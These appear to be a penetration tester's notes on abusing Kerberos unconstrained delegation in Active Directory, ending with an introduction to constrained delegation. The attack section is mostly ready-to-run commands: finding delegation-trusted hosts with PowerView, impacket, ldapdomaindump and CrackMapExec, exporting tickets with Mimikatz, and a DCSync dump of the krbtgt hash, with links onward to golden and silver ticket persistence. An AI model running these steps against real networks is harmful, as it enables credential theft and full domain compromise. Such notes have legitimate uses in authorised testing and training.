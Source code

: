 Kerberoas delegation allows to **reuse** the end-user credentials to access resources hosted on a different server.This is typically useful in multi-tier service or applications where kerberoas double hop is required.
- For example, users authetnicates to a web server and the web server makes requests to a DB server.The web server can request access to resources **all of the resources** on the DB server as the user and not as the web server's service account.
> **NOTE:**
> For the above example,the service account for the web service must be trusted for delegation to be able to make request as a user.

**Requirements**:
1. Object with Property **Trust this computer for delegation to any service (Kerberos only)**
2. Must have **ADS_UF_TRUSTED_FOR_DELEGATION**
3. Must not have **ADS_UF_NOT_DELEGATED** flag
4. User must not be in the **Protected Users** group
5. User must not have the flag **Account is sensitive and cannot be delegated**
## Attack
1. **Identify a target**
```powershell
#Powerview module
Get-NetComputer -Unconstrained
#ActiveDirectory module
Get-ADcomputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
#Using impacket (Linux)
impacket-findDelegation <Domain>/<USER>:<PASS>
#Using ldap (Linux)
ldapdomaindump -u "DOMAIN\\Account" -p <PASS> <IP> && grep TRUSTED_FOR_DELEGATION domain_computers.grep
#Crakmapexec (Linux/Windows)
crakmapexec ldap <IP> -u <Username> -p <PASS> --trusted-for-delegation
```
> **NOTE:**
> Domain controllers will always show that they have unconstrained delegation (ignore that).


2. **Get the `TGT`**
```powershell
#Powerview module
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
3. **Now use the hash to attack.**
DCsync attack
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp/krbtgt"'
```
- [[4-Domain persistence#Golden Ticket]]
- [[4-Domain persistence#Silver Ticket]]
- [PrintSpooler bug](https://book.hacktricks.xyz/windows/active-directory-methodology/printers-spooler-service-abuse#finding-spooler-services-listening)

---
# Constrained delegation
## Definition con.
Microsoft’s next iteration of delegation included the ability to limit where objects had delegation (impersonation) rights to.  Now a front-end web server that needed to impersonate users to access their data on a database could be restricted;** allowing it to only impersonate users on a specific service & system**.  However, as we will find out, the portion of the ticket that limits access to a certain service is not encrypted.  This gives us some room to gain additional access to systems if we gain access to an object configured with these rights. 
If you can gain access to an account (user or computer) that is configured with constrained delegation.  You can find this by searching for the `TRUSTED_TO_AUTH_FOR_DELEGATION` value in the **UserAccountControl** attribute of AD objects.